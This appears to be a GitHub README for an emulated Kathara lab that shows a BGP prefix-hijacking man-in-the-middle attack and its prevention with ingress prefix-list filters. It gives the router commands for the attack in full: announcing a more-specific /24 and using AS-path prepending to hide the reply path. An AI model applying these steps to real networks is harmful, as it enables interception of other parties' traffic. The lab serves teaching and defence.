 # Virtualisation of Internet Insecurity Demonstration

The lab is designed to facilitate a MITM Attack using BGP Prefix Hijacking.
![Final Network Topology Design](https://user-images.githubusercontent.com/37820793/190728275-79b66976-c6a7-4d62-a493-51138625bbfa.png)
The network topology consists of nine autonomous systems ranging from ASN-1 to ASN-9 including the ATTACKER and VICTIM ASes. The VICTIM AS is ASN-2 and the ATTACKER AS is ASN-8. Each autonomous system consists of one router and one server and all the routers are configured to be bgp speakers. Scripts are launched on the servers to execute commands via SSH on the routers to automate the MITM attack or apply prefix filters to prevent the attack. TCP dump is also set up on the DUMP-SERVER of ASN-8 to analyse hijacked traffic intended for ASN-2 once the attack is launched.

Since commands will be executed on the routers via the servers, the device.startup files of each server are used to set up SSH connections between the servers and routers and also write the python programs required to launch the attack and set up the prefix filters on the servers.

The attacker AS (ASN-8) announces 200.7.0.0/24 which is a subnet of the prefix assigned to ASN-2. This announcement will cause the prefix 200.7.0.0/16 and 200.7.0.0/24 to overlap. When prefixes overlap, BGP uses the longest prefix match rule. Due to this rule, announcing 200.7.0.0/24 will cause all the ASes to learn this route thus discarding the route to 200.7.0.0/16 previously learnt from ASN- 2’s announcement. All the traffic intended for ASN-2 will be forwarded to ASN-8.

A reply path is constructed by declaring a route path to forward the traffic to the VICTIM AS. This ensures that the attack goes unnoticed and prevents the MOAS conflict problem that may cause loops leading network downtime. ASN-8 blinds part of the network to the attack, with the aim of establishing a viable path to the victim. This is achieved by manipulating the AS Path attribute using AS Path Prepending. ASN-8 does this by announcing 200.7.0.0/24 and prepending 5, 1 and 2 to the AS path. AS 5 will not accept a route announcement that has its own AS number 5 hence it will not learn the bogus route announced by ASN-8. All traffic intended for ASN-2 will be intercepted by ASN-8 and forwarded to ASN-2 via the viable path. The dumpserver.startup file creates a python script to launch the attack and construct the the reply path.

## Basic Requirements

1. Make sure the latest version of Docker is installed - https://docs.docker.com/get-docker/
2. Python3.8 - https://www.python.org/downloads/
3. Make sure the latest version of Kathara is installed - https://www.kathara.org/

## To run this project successfully, a custom docker image must be created for kathara. Paramiko is needed to establish the SSH connection and must be installed by creating the custom docker image and running the kathara lab with this image.

1. Pull the latest kathara/quagga image:

```
$ docker pull kathara/quagga
```

2. Create copy of existing kathara/quagga image called “custom-kathara-image”:

```
$ docker run -tid --name custom-kathara-image kathara/quagga
```

3. Bash prompt for the custom-kathara-image container to manually install packages needed for this lab:

```
$ docker exec -ti custom-kathara-image bash
```

```
$ apt update
```

4. Install paramiko python module needed to send the commands via ssh to the router in the lab:

```
$ apt-get install -y python3-paramiko
```

```
$ exit
```

5. Commit the changes that have been made to the custom-kathara- image

```
$ docker commit custom-kathara-image kathara/custom-kathara-image
```

6. Remove the running container “custom-kathara-image” since the packages have now been installed:

```
$ docker rm -f custom-kathara-image
```

7. List the docker images that have been created. "kathara/custom-kathara-image" should be listed:

```
$ docker image ls
```

# Running the lab

## Lauch the MITM attack

1. To run the lab with the custom kathara image go to the lab directory, open a terminal and type:

```
$ kathara lstart -o “image=kathara/custom-kathara-image”
```

2. To lauch the attack run the following commands:

```
$ kathara connect router8
```

```
$ conf t
```

```
$ router bgp 8
```

```
$ network 200.7.0.0/24
```

```
$ ip route 200.7.0.0 255.255.255.0 216.239.32.1
```

3. The following for the as path prepend and route map:

```
$ route-map to-router5 permit 10
```

```
$ match ip address 10
```

```
$ set as-path prepend 5 1 2
```

```
$ exit
```

```
$ router bgp 8
```

```
$ neighbor 216.239.32.1 route-map to-router5 out
```

```
$ exit
```

```
$ do clear ip bgp *
```

## Automate the Attack

1. Launch the attack with the python script on the dumpserver

```
$ kathara connect dumpserver
```

```
$ python3 launchAttack.py
```

## Prevent and recover from the attack

For this lab prefix lists will be used to prevent and recover from the MITM attack and the type of prefix list to be used is ingress filters. The assumption made here is that ASN-2 has registered 200.7.0.0/16 with the Internet Routing Registry body. This means that other ASes are aware of the legitimate prefix of ASN-2 and so they use this information to create prefix-lists to filter out bogus announcements. Prefix lists are created for each neighbour of the routers and are set to reject prefixes that are greater than or equal to /17.

1. In this example an ingress filter called partialInRouter8 is created for 202.43.176.1 which is a neighbour of router 9.

```
$ kathara connect router9
```

```
$ vtysh
```

```
$ conf t
```

```
$ router bgp 9
```

```
$ neighbor 202.43.176.1 prefix-list partialInRouter8 in
```

```
$ ip prefix-list partialInRouter8 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter8 permit any
```

```
$ router bgp 9
```

```
$ neighbor 180.20.20.5 prefix-list partialInRouter6 in
```

```
$ ip prefix-list partialInRouter6 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter6 permit any
```

```
$ do clear ip bgp *
```

```
$ exit
```

Python scripts to apply prefix lists are created on each of the dumpservers of the routers except the the attacker AS (AS-8).

## Run the lab with the python script developed - Make sure docker is up and running.

1. To install the python virtual environment package go to the lab directory and type:

```

$ python3 -m pip install virtualenv

```

2. To create a virtual environment type:

```

$ python3 -m venv venv

```

3. To activate the virtual environment type:

```

$ source venv/bin/activate.

```

4. To install packages required for project type:

```

$ python -m pip install -r requirements.txt

```

5. To start the python program type:

```

$ python graph.py

```

6. To view the tool in the browser, go to port 5050 on your localhost (eg. 127.0.0.1:5050)
7. Press play at the button left corner to render the canvas. (Depending on your screen resolution, you may have to zoom out to 90% to view the full topology).
8. First of all, click the startbutton to start the lab and display the network topology.
9. Afterwards, depending on what you want to test you can either click the Apply Route Filters, Display Route Path, Launch Attack or Stop the Lab.

